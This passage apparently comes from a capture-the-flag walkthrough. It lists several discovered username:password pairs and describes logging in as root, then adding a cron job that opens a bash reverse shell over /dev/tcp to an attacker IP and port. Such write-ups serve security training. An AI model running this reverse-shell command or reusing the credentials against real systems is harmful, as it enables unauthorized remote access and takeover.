 We encounter a login page. We can utilized our own wordlist that we make a long this way.

```
admin:0D5oT70Fq13EvB5r
enzo:RioTecRANDEntANT!
root:P4ssw0rdS0pRi0T3c
```

We successfully authenticate as root using discovered password on `crontab.db` There's multiple cronjob entries that matches JSON based .db file we read previously.

<figure><img src=".gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

Leveraging this custom cronjob management tool, We can create and run new entry that establish reverse shell to our machine using this command.&#x20;

<pre><code><strong>/bin/bash -c "sh -i >&#x26; /dev/tcp/10.10.16.103/9003 0>&#x26;1"
</strong></code></pre>
